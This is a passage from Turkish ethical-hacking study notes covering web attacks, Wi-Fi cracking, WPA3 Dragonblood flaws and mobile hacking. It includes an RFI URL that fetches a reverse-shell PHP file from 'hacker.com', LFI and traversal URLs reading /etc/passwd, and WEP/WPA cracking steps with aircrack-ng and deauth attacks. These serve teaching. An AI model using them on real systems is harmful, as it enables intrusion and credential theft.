temizlenmesi olmadan, bu kod yetkisiz dosya yüklemeleri için kullanılabilir. 

\* Örneğin aşağıdaki URL, uzak bir konumda depolanan PHP dosyasında yapılan bir ters 

kabuğa harici bir referans içerir: 

<http://www.example.com/vuln_page.php?file=http://www.hacker.com/netc> at.php\_ 

LFI - Yerel Dosya Ekleme: 

RFI ile çok benzerdir. Tek fark, LFI&#39;da aşağıdaki işlemleri gerçekleştirmek için Saldırıya uzak 

dosyaları dahil etmek yerine, saldırgan yerel dosyaları kullanmak zorundadır (örn: mevcut 

sunucudaki dosyalar yalnızca kötü amaçlı bir betiği çalıştırmak için kullanılabilir). 

Örnek: 

• <http://example.com/?file=../../uploads/evil.php> 

Dizin Çaprazlama 

Bir saldırgan, sunucudaki kullanıcıların listesini içeren /etc/passwd dosyasının içeriği gibi 

hassas bilgileri elde edebilir; ; Log files, source code, access.log vb. 

Örnek: 

· <http://example.com/events.php?file=../../../../etc/passwd> 

Bir saldırgan /etc/passwd (sunucudaki kullanıcıların listesini içeren dosya) içeriğine 

ulaşabilir. 

Benzer şekilde, bir saldırgan günlük dosyalarına (örneğin, Apache access.log veya error.log), 

kaynak koduna ve diğer hassas bilgilere erişmek için Dizin Geçişi güvenlik açığından 

yararlanabilir. Bu bilgiler daha sonra bir saldırıyı ilerletmek için kullanılabilir. 

XSS (Siteler arası komut dosyası) 

Sayfanın ne yapacağını değiştiren bir web formu giriş alanına JavaScript girme. 

\- URL aracılığıyla da aktarılabilir 

\- Çerezlere erişerek ve bunları uzak bir ana bilgisayara göndererek kötü amaçlı olabilir 

\- Çerezler için HttpOnly bayrağı ayarlanarak hafifletilebilir; Ancak birçok bilgisayar korsanı 

XSS yüklerini çalıştırmak için bunu atlatabilir. 

XSS Türleri: 

\1. Depolanmış XSS (Kalıcı veya Tip-I) - XSS&#39;yi bir forumda veya birden fazla kişinin 

erişebileceği bir yerde depolar. 

\2. Yansıtılmış XSS (veya kalıcı olmayan XSS olarak da adlandırılır); bir uygulama bir HTTP 

isteğinde veri aldığında ve bu verileri güvenli olmayan bir şekilde anında yanıtın içine dahil 

ettiğinde. 

\3. DOM Tabanlı XSS (ya da bazı metinlerde &quot;tip-0 XSS&quot; olarak da adlandırılır); saldırı 

yükünün, kurbanın tarayıcısında orijinal istemci tarafı komut dosyası tarafından kullanılan 

DOM &quot;ortamının&quot; değiştirilmesi sonucunda yürütüldüğü bir XSS saldırısıdır, bu nedenle 

istemci tarafı kodunun &quot;beklenmedik&quot; bir şekilde çalışması. 

XSS yüklerine örnekler: 

Not: filtreleme, doğrulama ve WAF yetenekleri açısından farklılık gösterirler. 

HTML Enjeksiyonu 

Bu güvenlik açığı, kullanıcı girdisi doğru şekilde sterilize edilmediğinde ve çıktı 

kodlanmadığında ortaya çıkar. 

Bir enjeksiyon, saldırganın bir kurbana kötü amaçlı bir HTML sayfası göndermesine olanak 

tanır. 

LDAP Enjeksiyonu 

LDAP deyimleri oluşturan uygulamaları istismar eder 

\- LDAP enjeksiyonu için biçim )(&amp;) içerir 

SOAP Enjeksiyonu 

Kimlik doğrulamasını atlamak için sorgu dizeleri ekleme 

\- SOAP, bilgileri biçimlendirmek için XML kullanır 

\- Mesajlar doğası gereği &quot;tek yönlüdür&quot; 

Arabellek Taşması 

Bitişik belleğin üzerine yazmak, kod çalıştırmak veya sistemi çökertmek için uygulamanın 

tampon alanına veri yazma girişimleri 

\- Tamponun izin verdiğinden daha fazla veri girer 

\- Yığın, öbek, NOP kızakları ve daha fazlasını içerir 

\- Kanaryalar - sistemler bunları izleyebilir - değiştirilirlerse bir tampon taşması meydana 

geldiğini gösterirler; tampon ve kontrol verileri arasına yerleştirilirler. 

Siteler Arası İstek Sahteciliği (CSRF) 

Son kullanıcıyı zaten kimlik doğrulaması yapılmış bir uygulamada istenmeyen eylemleri 

gerçekleştirmeye zorlar 

\- Mağdur adına istenmeyen bir işlevi yerine getirmek için mağdurun kimliğini ve 

ayrıcalıklarını devralır 

\- Oturumu yakalar ve oturum açan kullanıcının kimlik bilgilerini temel alan bir istek gönderir 

\- Rastgele meydan okuma belirteçleri gönderilerek hafifletilebilir. 

Oturum Sabitleme 

Saldırgan meşru bir sitede oturum açar ve bir oturum kimliği alır; kurbana oturum kimliği 

içeren bir bağlantı gönderir. Kurban oturum açtığında, saldırgan artık oturum açabilir ve 

kullanıcının kimlik bilgileriyle çalışabilir 

\- Çerezler - tercihler, oturum ayrıntıları veya alışveriş sepeti içeriği gibi bilgileri içeren küçük 

metin tabanlı dosyalar 

o İşlevselliği değiştirmek için manipüle edilebilir (örn. &quot;ADMIN=no&quot; yazan yeri &quot;yes&quot; olarak 

değiştirin) 

o Bazen, ancak nadiren, şifreler de içerebilir 

HTTP Yanıt Bölme 

Bir giriş alanına başlık yanıtı verileri ekler, böylece sunucu yanıtı böler 

\- Kullanıcıyı kötü amaçlı bir siteye yönlendirmek için kullanılabilir 

\- Kendi başına bir saldırı değildir - başka bir saldırıyla birleştirilmelidir 

\- HTTP Yanıt Bölme ile çeşitli saldırı türlerini monte etmek mümkündür: 

o XSS 

o Web Önbelleği Zehirlenmesi (tahrifat) 

o Tarayıcı önbelleği zehirlenmesi 

o Kullanıcıya özel bilgiler içeren sayfaları ele geçirme 

Güvensiz doğrudan nesne referansları (IDOR) 

Dahili bir uygulama nesnesine yapılan bir referansın başka herhangi bir erişim kontrolü 

olmaksızın açığa çıkarılması durumunda ortaya çıkan yaygın bir güvenlik açığıdır. Güvenlik 

açığının keşfedilmesi genellikle kolaydır ve saldırganların yetkisiz verilere erişmesine olanak 

tanır. 

Karşı Önlemler 

Enjeksiyon için girdi temizleme, SQL enjeksiyonu için SQL parametrelendirme, enjeksiyonlar 

için girdi doğrulama ve sanitizasyon, yamalı sunucuları tutma, gereksiz hizmetleri, portları ve 

protokolleri kapatma. 

\12. Hacking Wireless Networks // 12. Kablosuz Ağları Hacklemek 

Kavramlar ve Terminoloji 

BSSID 

Temel Hizmet Kümesi Tanımlayıcısı (BSSID) - Kablosuz erişim noktasının MAC adresi 

SSID 

Servis Seti Tanımlayıcısı (SSID) - Bir ağın adıdır; ağı tanımlayan metin sözcüğü (&lt;= 32 

karakter); güvenlik sağlamaz. 

ESSID 

Genişletilmiş Hizmet Seti Tanımlayıcısı (ESSID) - Genişletilmiş bir temel hizmet seti (ESS) 

ağdaki tüm BSS&#39;lerden oluşur. Tüm pratik amaçlar için ESSID, SSID&#39;nin yaptığı gibi aynı ağı 

tanımlar. SSID terimi en sık kullanılan terimdir. 

\- 802.11 Serisi - kablosuz ağlar için standartları tanımlar 

\- 802.15.1 - Bluetooth 

\- 802.15.4 - Zigbee - düşük güç, düşük veri hızı, yakın ad hoc ağlar 

\- 802.16 - WiMAX - geniş bant kablosuz metropolitan alan ağları 

\- Temel Hizmet Seti (BSS) - tek bir AP ve istemcileri arasındaki iletişim 

\- Ortogonal Frekans Bölmeli Çoğullama (OFDM) - dalgaları çeşitli kanallarda taşır. 

\- Çoklu Giriş Çoklu Çıkış (MIMO) - MIMO, çok yollu yayılımın yanı sıra iletim ve uzamsal 

çeşitliliklerden yararlanarak spektral verimliliği artırmak için verici ve alıcı tarafta birden 

fazla anten kullanır. 

\- ISM Bandı - ISM radyo bantları, radyo spektrumunun telekomünikasyon dışındaki 

endüstriyel, bilimsel ve tıbbi (ISM) amaçlar için uluslararası olarak ayrılmış bölümleridir. Bu 

bantlarda radyo frekansı (RF) enerjisinin kullanımına yönelik uygulamalara örnek olarak 

radyo frekanslı proses ısıtma, mikrodalga fırınlar ve tıbbi diatermi makineleri verilebilir. 

DSSS and FHSSS spekturumları 

Direct-Sequence Spread Spectrum (DSSS) - Mevcut tüm dalga biçimlerini tek bir amaç 

doğrultusunda birleştirir. 

\- Frekans atlamalı yayılmış spektrum (FHSS) - Geniş bir spektral bandı işgal eden birçok farklı 

frekans arasında taşıyıcı frekansı hızla değiştirerek radyo sinyallerini iletme yöntemidir. 

\- Spektrum Analizörü - Kablosuz kalitesini doğrular, sahte erişim noktalarını tespit eder ve 

saldırıları algılar. 

Wireless Standard Operating Speed 

(Mbps Frequency (GHz) Modulation Type 

802.11a 54 5 OFDM 

802.11b 11 2.4 DSSS 

802.11g 54 2.4 OFDM &amp; DSSS 

802.11n 600 2.4 – 5 OFDM 

802.11ac 1000 5 QAM 

Kimlik Doğrulama 

\- Üç Tür Kimlik Doğrulama 

o Açık Sistem - kimlik doğrulama yok 

o Paylaşılan Anahtar Kimlik Doğrulaması - paylaşılan bir anahtar (şifre) aracılığıyla kimlik 

doğrulama 

o Merkezi Kimlik Doğrulama - RADIUS gibi bir şey aracılığıyla kimlik doğrulama 

\- İlişkilendirme, bağlantı kurma eylemidir; kimlik doğrulama ise tanımlama eylemidir istemci 

Anten Türleri: 

RADIUS, bir ağ hizmetine bağlanan ve kullanan kullanıcılar için merkezi Kimlik Doğrulama, 

Yetkilendirme ve Hesaplama (AAA veya Triple A) yönetimi sağlayan, 1812 numaralı bağlantı 

noktasında çalışan bir ağ protokolüdür. 

Anten Türleri 

\- Çok yönlü anten 

o Sinyaller bir kubbe gibi her yöne gider. 

\- Dipol anten 

o İki yöne gider. 

\- Yönlü anten 

o Uzun bireysel ışın, artan mesafeler. 

o Yagi anten 

▪ Çok yönlü ve yüksek kazançlı. 

o Parabolik anten 

Sinyali tek bir noktaya odaklar. 

\- Yama Grafik anten 

o Yarım Omni (örneğin duvara yapışarak bir taraftan sinyal alın). 

Kablosuz Şifreleme Düzenleri 

Kablosuz Güvenlik 

WEP - Kablosuz Eşdeğerlik Gizliliği 

\- 64/128 bit RC4 ICV 

\- RC4 - Rivest Cipher 4 Akış Şifreleme Algoritması 

\- ICV - Bütünlük Kontrol Değeri 

Çok yaşlı ve güvensiz 

WPA - Wi-Fi Korumalı Erişim 

\- TKIP (Temporal Key Integrity Protocol) ile RC4 kullanır 

o Başlangıç Vektörü (IV) daha büyüktür ve şifrelenmiş bir özettir 

o Her pakete benzersiz bir 128 bit şifreleme anahtarı verilir 

\- Kişisel | WPA-PSK 

o TKIP + PSK 

o 64/128 bit RC4 MIC 

o Herkes aynı 256 bit anahtarı kullanır 

\- Kurumsal | WPA-802.1X 

o TKIP + RADIUS 

o 64/128 bit RC4 MIC 

o Kullanıcıların kimliklerini bir kimlik doğrulama sunucusu ile tek tek doğrular (örn, RADIUS) 

TKIP Hakkında - Geçici Anahtar Bütünlüğü Protokolü 

\- Anahtarları karıştırın 

o Gizli kök anahtarı IV ile birleştirir 

\- Sıra sayacı ekler 

o Tekrar saldırılarını önler 

\- 64 bit Mesaj Bütünlüğü Kontrolü uygular 

o Kurcalamaya karşı koruma 

\- TKIP&#39;nin kendi güvenlik açıkları vardır 

o 802.11-2012 standardında kullanımdan kaldırılmıştır 

WPA2 - Wi-Fi Korumalı Erişim v2 

\- 802.11i IEEE standardı 

Kablosuz Hacking 

- **Tehditler** 
- Erişim Kontrolü Saldırıları 
- Bütünlük Saldırıları 
- Gizlilik Saldırıları 
- Kullanılabilirlik Saldırıları 
- Kimlik Doğrulama Saldırıları 
- **Ağ Keşfi** 
- Wardriving, warflying, warwalking, vb. 
- WiFiExplorer, WiFiFoFum, OpenSignalMaps, WiFinder gibi araçlar 
- **WIGLE -** kablosuz ağlar için harita 
- **NetStumbler -** ağları bulmak kullanılan bir keşif aracı 
- **Kısmet** - keşif için kullanılabilecek kablosuz paket analizörü/sniffer 
- Herhangi bir paket göndermeden çalışır (pasif olarak) 
- Yapılandırılmamış erişim noktalarını algılayabilir. 
- Kanal atlamalı çalışır. 
- Beacon çerçeveleri göndermeyen ağları keşfedebilir 
- Paketleri toplama ve bunları bir günlük dosyasına kaydetme yeteneği (Wireshark/tcpdump tarafından okunabilir) 
- **NetSurveyor -** benzer özelliklere sahip Windows platformlarda çalışan uygulama aracıdır. NetStumbler ve Kısmet gibi benzer özelliklere sahiptir. 
- Özel sürücüler gerektirmez. 
- Wi-Fi Adaptörü 
- **AirPcap** önceden windows platformlarında kullanılabiliyordu, fakat artık desteklenmiyor. 
- **Pcap** - Windows için sürücü kitaplığı. 
- **Libpcap** - Linux için sürücü kitaplığı. 

Kablosuz Saldırılar 

- **Yetkisiz Erişim Noktası** - Kablolu bir erişim noktasına takılı yetkisiz erişim noktası. 
- Yetkisiz Access Pointleri Tespit ya da Analiz etmek için kullanılan araçlar. : Wi-Fi Pumpkin, Wi-Fi Pineapple 
- **Honeyspot** – Yetkisiz bir AP ile iyi bilinen bir etkin noktayı taklit etme özelliğini taşır. 
- **Ad Hoc Bağlantı Saldırısı** - adhoc ağ yoluyla doğrudan başka bir telefona bağlanma. 
- Diğer kullanıcının bağlantıyı kabul etmesi gerektiğinden bu method genelde başarılı değildir. 
- **DoS Attack** – Access Point’ e **de-auth** paketleri gönderir veya kablosuz sinyali bozmak amacıyla kullanılır. 
- **De-auth (deauthentication) işlemiyle, aynı isme sahip bir AP'ye bağlanarak kullanıcılarınızı kendi AP'nize yönlendirebilirsiniz.** 
- **Jammer’ lar yasa dışı olduğundan çok tehlikelidir ve kullanımı tavsiye edilmez.** 
- **MAC Filtresi - bir ağda yalnızca belirli MAC adreslerine izin verir.** 
- **Ağ üzerinde bağlı MAC adreslerini kolay bir şekilde sniff edildiğinden kolayca kırılabilir.** 
- Spoofing yapmak amacıyla kullanılan araçlar şu şekildedir : SMAC ve TMAC. 

**Kablosuz Şifreleme Saldırıları** 

**WEP Şifreleme Türünü Çözümleme** 

- Bir erişim noktasında kullanılan WEP anahtarını kırmak için, çok sayıda başlangıç vektörleri (IV) toplamamız gerekir. Saldırganlar, paketleri yeniden oynatarak işlemi hızlandırmak adına bir takım uygulamalar kullanabilirler. 
- İzlenmesi gereken adımlar : 
- Belirli AP kanalında monitör modunda kablosuz arabirimi başlatın 
- Kablosuz cihazın AP'ye injection yeteneğini test edin. 
- Erişim noktasıyla sahte kimlik doğrulaması yapmak için aireplay-ng'yi kullanın. 
- AP kanalında airodump-ng'i yeni benzersiz IV'ler toplamak için bir BSSID filtresiyle başlatın. 
- Inject paketleri yapmak için ARP isteklerini yeniden oynatma modunda aireplay-ng'i başlatın. 
- Toplanan IV'leri kullanarak anahtarı kırmak için aircrack-ng çalıştırın. 

WPA/WPA2 **Şifreleme Türünü Çözümleme** 

- WEP’ den çok daha zordur. 
- Sürekli değişen bir geçici anahtar ve kullanıcı tanımlı parola kullanır. 
- Anahtar Yeniden Yükleme Saldırısı (KeyReinstallationAttack) - başka bir cihazın oturumunun üçüncü el sıkışmasını kullanan yeniden oynatma saldırısı 
- Diğer saldırıların çoğu, parolayı kaba kuvvetle (Brute Force) zorlamaktan ibarettir. 
  
- İzlenmesi gereken adımlar : 
  
- İzlemeye başlayın ve BSSID'yi bulun (ör. airodump-ng kullanarak). 
- .cap çıktı dosyasıyla yalnızca BSSID'yi izlemeye başlayın. 
- Amaç, bir WPA el sıkışması elde etmektir; Saldırgan, bir istemcinin el sıkışmasını kapmak için bağlanmasını bekleyebilir / veya yeniden bağlanmasını sağlamak için bir istemcinin kimliğini devre dışı bırakmak için bir deauth saldırısı kullanabilir. 
- .cap dosyasına kaba kuvvet uygulamak için iyi bir kelime listesi kullanarak aircrack-ng'yi başlatın. İkinci adımda zaten izlemeye başlamıştık. 

Kullanılan Araçlar 

- Aircrack-ng Suite - WiFi ağının güvenliğini değerlendirmek için kullanılan bir uygulamadır. 
- İzleme: Üçüncü taraf araçlar tarafından daha fazla işlenmek üzere paket yakalama ve verilerin metin dosyalarına aktarılması. 
- Saldırma: Paket injection yoluyla saldırıları, kimlik doğrulamasını kaldırmayı, sahte erişim noktalarını ve diğerlerini yeniden oynatmayı deneyin. 
- Test: WiFi kartlarını ve sürücü yeteneklerini kontrol etme (yakalama ve yerleştirme). 
- **airodump-ng** - Airodump-ng, ham 802.11 çerçevelerinin paket yakalaması için kullanılır ve aircrackng ile kullanmak amacıyla WEP IV'leri toplamak için kullanılır. 
- **airmon-ng** - Kablosuz arayüzlerde monitör modunu etkinleştirmek için kullanılır. 
- **aireplay-ng** - Çerçeveleri enjekte etmek için kullanılır (arp tekrarı, kimlik doğrulama saldırısı, vb.) 
- **aircrack-ng** - Bir 802.11 WEP ve WPA/WPA2-PSK anahtar kırma programıdır. 

- Cain ve Abel – Toplanan paketleri analiz eder ve şifreleri kırmak amacıyla kullanılır. (Daha uzun sürebilir). 
- WEP'i kırmak için istatistiksel ölçümlere ve PTW tekniğine dayanır 
- **Wifite** - Otomatik bir kablosuz saldırı aracıdır. 
- **KisMAC** - WEP veya WPA şifrelerini kırmak için kullanılan bir MacOS aracıdır. 
- Fern WiFi Cracker 
- WEPAttack 
- WEPCrack 
- Portable Penetrator 
- Elcomsoft's Wireless Security Auditor 
- Cracking yöntemleri arasında PTW, FMS ve Korek tekniği bulunur. 

Bluetooth Saldırıları 

- **Bluesmacking** - Cihaza karşı hizmet dışı bıraktırma saldırı yöntemi. 
- **Bluejacking** - İstenmeyen mesajlar gönderme. 
- Bluebugging - Bir cihazın özelliklerini uzaktan kullanma. 
- Bluesnarfing - Bir cihaz üzerinden yapılan veri hırsızlığı. 

Kablosuz Koklama (Wireless Sniffing) 

- Kablolu bir ağı koklamaya çok benzer. 
- Kullanılan Araçlar : 
- **NetStumbler** 
- **Kısmet** - 802.11 kablosuz LAN'lar için bir ağ dedektörü, paket dinleyicisi ve IDS'dir. 
- **OmniPeek** – ağ’a ek olarak Wireshark gibi etkinlik ve izleme amacıyla veriler sağlar. 
- **AirMagnet WiFi Analyzer Pro** - sniffer, trafik analizörü ve ağ denetim paketi. 
- **WiFi Pilot** 

**Kablosuz Ağları Koruma - En iyi yöntemler** 

- 802.11i'yi kullanın 
- WPA2 
- AES Şifrelemesi 
- ACL ile MAC Filtreleme (Bu kesin bir çözüm değil, bilgisayar korsanları atlatabilir.) 
- SSID yayınını devre dışı bırakın (Bu nihai bir çözüm değil, bilgisayar korsanları atlatabilir) 
- Ev ofisi olması durumunda VPN kullanın. 
- Halka Açık / Ücretsiz Wi-Fi Uyarıları 
- Oturum Çalma 
- Yetkilendirilmemis Access Pointler 
- Kötü İkizler (Evil Twins) 

**WPA 3 Saldırıları** 

WPA3 (Wi-Fi Korumalı Erişim 3), Wi-Fi Alliance tarafından geliştirilen en yeni nesil Wi-Fi güvenlik sertifikasıdır. WPA2'nin yaygın başarısı ve benimsenmesine dayanan başarılı teknoloji, 2018'in sonlarında duyuruldu ve pazarın "bir sonraki son teknoloji güvenlik protokolü" olarak müjdelendi. 

WPA3, WiFi güvenliğini basitleştirmeyi amaçlayan, daha güçlü kimlik doğrulama, artırılmış kriptografik güç ve daha dayanıklı ağlar dahil olmak üzere bir dizi yeni özellik ekler. Yeni standart, WPA2 cihazlarıyla birlikte çalışabilirliği koruyor ve şu anda isteğe bağlı olsa da, pazarın benimsenmesine paralel olarak sonunda zorunlu hale gelecek. 

Kişisel ve kurumsal kullanıcılar için daha güçlü gizlilik ve güvenlik korumaları sağlamak üzere tasarlanmış olmasına rağmen, halihazırda çeşitli tasarım kusurları da rapor edilmiştir. 

Araştırmacılar, bir saldırganın WPA3 korumasıyla donatılmış Wi-Fi ağlarını ele geçirmesine izin verecek bir dizi yan kanal ve sürüm düşürme saldırısını ayrıntılı olarak açıkladı. Araştırma ikilisi, WPA3'ün iki cihaz arasında güvenli iletişim kurmak için kullandığı "Dragonfly" el sıkışmasına atıfta bulunarak bu güvenlik açıklarını "Dragonblood" olarak adlandırdı. 

Wi-Fi Alliance bir basın açıklamasında şunları belirtti. 

cihaz üreticisi, sorunları çözmek için yamaları dağıtmaya başladı bile. Bu sorunların tümü, cihazların birlikte iyi çalışmasına herhangi bir etkide bulunmadan yazılım güncellemeleriyle azaltılabilir. Bu güvenlik açıklarının kötüye kullanıldığına dair bir kanıt yok.” 

Araştırmacılar, Vanhoef ve Ronen, bu güvenlik açıklarını ifşa etmeden önce, keşfedilen sorunları çözmek ve WPA3 tamamen dağıtılmadan önce etkisini azaltmak için Wi-Fi Alliance ile işbirliği yaptı. 

Ne buldular? 

WPA3 kullanan belirli bir ağın şifresini kırmak neredeyse imkansızdır. Yine de ağ güvenliği araştırmacıları Mathy Vanhoef ve Eyal Ronen, yeni standart yürürlükte olsa bile, menzil içindeki bir saldırganın belirli bir ağın parolasını kurtarabileceğini ve WPA3'ün güvenli bir şekilde şifrelediği varsayılan bilgileri okuyabildiğini keşfetti.  

Ortaya çıkan güvenlik açıkları iki sınıflandırmaya ayrılabilir: Dragonfly anlaşmasındaki kusurlar ve WPA3'e hazır cihazlara yönelik sürüm düşürme saldırıları. 

Kişisel sertifikayı çalıştıran ev ağlarına yönelik saldırıları kullanan araştırmaları, "Wi-Fi ağının şifresini kurtarmak, kaynak tüketim saldırıları başlatmak ve cihazları daha zayıf güvenlik gruplarını kullanmaya zorlamak için kötüye kullanılabilecek" zayıflıkları ortaya çıkardı. HTTPS'nin ekstra koruması olmadan bu kusur, kredi kartları, şifreler, sohbet mesajları, e-postalar ve daha fazlası dahil olmak üzere hassas bilgileri çalmak için kullanılabilir. 

Bu güvenlik açıklarını barındıran Dragonfly el sıkışması, erişim kontrolü için bir kullanıcı adı ve parola gerektiren diğer ağlarda, yani EAP-pwd protokolünü kullananlarda da kullanılır. Bu, saldırganların, tam sertifikasından bağımsız olarak, bu protokolü kullanan herhangi bir ağda aynı güvenlik açıklarından yararlanabileceği anlamına gelir. 

Vanhoef ve Ronen, EAPpwd'yi uygulayan çoğu üründe ciddi kusurlar keşfetti. Bu hatalar, bir saldırganın herhangi bir kullanıcıyı taklit etmesine ve böylece ağa parola kullanmadan erişmesine olanak tanır. EAP-pwd oldukça nadiren kullanılsa da, bu bulgular hala birçok kullanıcı için ciddi bir risk oluşturuyor ve Dragonfly el sıkışmasının yanlış uygulanmasının risklerini gösteriyor. 

**Sonuçlanan Saldırılar** 

Bu güvenlik açıklarına dayalı saldırılar basit ve ucuzdur. Pek çoğu, kolayca bulunabilen eski WPA2 kırma ekipmanı kullanılarak gerçekleştirilebilir. Raporun tamamına göre, yan kanal saldırıları, "8 karakterlik tüm küçük harfli şifreleri 125 $ değerinde araçlarla" ifşa etmek için bile kullanılabilir. Anahtar yöntemler aşağıda ayrıntılı olarak açıklanmıştır. 

**Güvenlik Grubu Düşürme Saldırısı** 

Bu yöntem, kurban cihazları zayıf bir güvenlik grubu kullanmaya zorlamak için Dragonfly anlaşmasından yararlanır. 

Tipik olarak, başlatan bir cihaz, kullanmak istediği güvenlik grubunu içeren bir taahhüt çerçevesi gönderir. Erişim Noktası (AP) bu grubu desteklemiyorsa, reddedilen bir mesajla yanıt vererek müşteriyi başka bir grubu denemeye zorlar. Bu işlem, her iki tarafça da desteklenen bir güvenlik grubu bulunana kadar devam eder. 

Bu saldırıda, kötü niyetli bir taraf bir AP'nin kimliğine bürünebilir ve istemcileri savunmasız bir güvenlik grubu seçmeye zorlamak için tekrarlanan reddetme mesajları gönderebilir. 

**Side-Channel Attacks** 

Araştırmacılar, bir erişim noktasının, zamanlama veya bellek erişim modellerine dayalı olarak ağ parolası hakkında bilgi verebileceğini keşfetti. 

Kesinleştirme çerçevelerine yanıt verirken, belirli bir durumda AP, eliptik eğrilere dayalı olanların aksine çoklayıcı güvenlik gruplarını (MODP grupları) destekliyorsa, yanıt süresi ağın parolasına bağlı olacaktır. 

Bir saldırganın bu zamanlama bilgisini bir sözlük saldırısı gerçekleştirmek için kötüye kullanabileceği bulundu; 

"AP'nin her parolayı işlemesinin ne kadar süreceğini simüle etmek ve bunu gözlemlenen zamanlamalarla karşılaştırmak." 

Benzer bir şekilde, bir saldırgan, bir el sıkışmanın taahhüt çerçevesini oluştururken kurbanın cihazından bellek erişim kalıplarını alma yeteneğine sahipse, ağın şifresi hakkındaki bilgileri ortaya çıkarmak için bu kalıpları kullanabilir. Bu bilgilere erişim, aktör seçilen cihazdaki herhangi bir uygulamanın kontrolündeyse veya cihazın tarayıcısındaki JavaScript kodunun kontrolündeyse mümkündür. 

Açığa çıkan modeller daha sonra "tahmin edilen bir parola ile ilişkili bellek erişim modellerini kopyalayarak ve bunu kaydedilen erişim modelleriyle karşılaştırarak" başka bir sözlük saldırısı gerçekleştirmek için kullanılabilir. 

**Hizmeti engelleme Saldırısı (Denial of Service Attack)** 

**Saldırgan, taahhüt çerçevelerini gönderme, alma ve işlemenin yüksek hesaplama maliyetinden yararlanarak Hizmet Reddi (D0S) saldırıları gerçekleştirebilir.** 

WPA3, kötü niyetli aktörlerin yanlış MAC adresleri kullanarak taahhüt çerçeveleri oluşturmasını önlemek için tasarlanmış bir çerez değişim süreci içerir. Bu koruma mevcut olsa da, bundan kaçınmak kolaydır. Sonuç olarak, saldırganlar saniyede 16 kadar az sahte işleme çerçevesi göndererek belirli bir AP'yi aşırı yükleyebilir. Bu, AP'de yüksek CPU kullanımı ve kaynak tüketimi ile sonuçlanarak diğer cihazların bağlanmasını, pilin bitmesini ve diğer işlevlerin engellenmesini engeller. 

Satıcıların devreye soktuğu tam korumalara bağlı olarak, AP'de yüksek CPU kullanımını tetiklemek veya diğer cihazların WPA3 kullanarak bağlanmasını engellemek olasıdır. 

**Düşürme ve Sözlük Saldırısı (Downgrade & Dictionary Attack)** 

Daha eski istemcilere ve nihai olarak WPA3'e geçişe izin vermek için geliştiriciler, WPA3 için bir "geçiş modu" oluşturdu. Bu modu kullanırken bir ağ, paylaşılan bir parola ile hem WPA3 hem de WPA2 kullanımını destekleyebilir. Bu sürüm düşürme saldırısı, bu geriye dönük uyumluluktan yararlanır. 

Araştırmacılar, kötü niyetli bir varlığın hileli bir ağ oluşturabileceğini ve WPA3'ü destekleyen istemcileri WPA2 aracılığıyla bağlanmaya zorlayabileceğini buldu. Kaydedilen WPA2 el sıkışması, daha sonra bir sözlük veya önceki nesilden bilinen kaba kuvvet saldırıları kullanılarak paylaşılan parolayı kurtarmak için kullanılabilir. 

Benzer kusurlar Samsung Galaxy S10'da ve diğer birkaç cihazda bulundu ve bunların çoğu, WPA3'e özel bir ağ üzerinden bağlanırken bile WPA2 kullanmaya zorlanabilir. Bu, benzer saldırılara izin verir. 

**Ne Yapılabilir ?** 

Uygulamada, bu araştırmaya dayalı olarak WPA3 için ana riskler, kaynakları kısıtlı cihazlara yönelik sürüm düşürme saldırıları ve zamanlama saldırılarıdır. Kalan saldırıların çoğunun yürütülmesi çok daha karmaşıktır ve tedarikçilerin uygun savunmaları uygulayacağını varsayarsak, pratikte yaygın olarak suistimal edilmeleri pek olası değildir. 

Yine de, WPA3'ün piyasaya sürülmesi ile bu ciddi güvenlik açıklarının keşfedilmesi arasında ne kadar kısa bir süre geçtiği göz önüne alındığında, zaman içinde daha fazla güvenlik açığının keşfedilebileceğini beklemek gerçekçi olmaz. 

Bu güvenlik açıkları yamalanmış olsa da, keşfedilmeleri, Wi-Fi kullanıcılarına, hassas işlemleri ve iletişimleri - tanıdık, parola korumalı ağlarda bile - korumak için her zaman VPN'ler ve benzer güvenlik araçları gibi ekstra önlemlerin alınması gerektiğini hatırlatır. 

VPN'ler, bir kullanıcının internet bağlantısını uzak bir sunucu aracılığıyla şifreleyerek çalışır ve ağda casusluk yapan herhangi birinin bir cihaz ile sunucu arasında gönderilen trafiği okuyamamasını sağlar. Bu bulguların nihai çıkarımı, en son sertifikasyonuna ve rahatlığına rağmen, tek başına Wi-Fi'ye asla tam olarak güvenilemeyeceği olmalıdır. Güvende olmak her zaman üzgün olmaktan daha iyidir. 

**13. Mobil Platformları ve IoT'yi Hacklemek** 

**A) Mobil Platform Hacking** 

- **Üç Ana Saldırı Yolu** 
- **Cihaz Saldırıları - tarayıcı tabanlı, SMS, uygulama saldırıları, köklü/jailbreak'li cihazlar.** 
- **Ağ Saldırıları - DNS önbelleği zehirlenmesi, hileli AP'ler, paket koklama.** 
- **Veri Merkezi (Bulut) Saldırıları - veritabanları, fotoğraflar vb.** 
- **OWASP İlk 10 Mobil Risk:** 

- **M1 - Uygunsuz Platform Kullanımı** - Özelliklerin veya güvenlik kontrollerinin kötüye kullanımı (Android amaç ya da niyetleri, TouchID, Anahtar Zinciri) 
- **M2 - Güvenli Olmayan Veri Depolama - Yanlış saklanan veriler ve veri sızıntısı.** 
- **M3 - Güvensiz İletişim - Zayıf el sıkışma, yanlış SSL, açık metin iletişimi.** 
- **M4 - Güvenli Olmayan Kimlik Doğrulama - Son kullanıcının kimliğinin doğrulanması veya hatalı oturum yönetimi.** 
- **M5 - Yetersiz Şifreleme - Bir varlığa kriptografi uygulayan ancak yetersiz olan kod (SSL/TLS İÇERMEZ)** 
- **M6 - Güvenli Olmayan Yetkilendirme - Yetkilendirmede hatalar (erişim hakları)** 
- **M7 - İstemci Kodu Kalitesi - Kod düzeyinde uygulama sorunları için Catchall.** 
- **M8 - Kod Kurcalama - İkili yama, kaynak değişikliği, dinamik bellek değişikliği.** 
- **M9 - Tersine Mühendislik - Sorunları ve açıkları bulmak için temel ikili dosyaları tersine çevirme.** 
- **M10 - Ekstra İşlevsellik - Kodlayıcılar tarafından yanlışlıkla yerleştirilen arka kapılar için arama.** 

**Mobile Platformlar** 

- **Android** - Google tarafından oluşturulmuş platform 
- **Köklendirme** - bir Android cihazda kök erişimine sahip olma yeteneğine verilen isim. 
- **Araçlar** 
- KingoRoot 
- TunesGo 
- OneClickRoot 
- MTK Droid 
- **IOS – Apple Platformu** 
- **Jailbreaking - bir iOS cihazını köklendirmenin farklı seviyelerine verilen isimdir.** 
- **Araçlar** 
- evasi0n7 
- GeekSn0w 
- Pangu 
- Redsn0w 
- Absinthe 
- Cydia 
- **Teknikler** 
- **Untethered -** kernel, yeniden başlatıldıktan sonra da sistem bağlantısı olmasa bile yamalı kalır. 
